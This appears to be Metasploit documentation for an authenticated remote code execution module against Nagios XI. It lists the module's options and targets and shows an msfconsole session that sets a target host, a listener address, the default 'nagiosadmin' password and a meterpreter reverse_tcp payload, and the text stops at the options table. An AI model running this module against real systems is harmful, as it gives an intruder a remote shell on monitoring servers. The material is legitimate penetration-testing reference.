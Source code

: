 ## Options
### FINISH_INSTALL
If this is set to `true`, the module will try to finish installing Nagios XI on targets where the installation has not been completed.
This includes signing the license agreement. The default value is `false`.
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux (x86)
1   Linux (x64)
2   Linux (cmd)
```

## Scenarios
### Nagios XI 5.6.5 running on CentOS 7 - Linux (x86) target
```
msf6 > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set target 0
target => 0
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
```
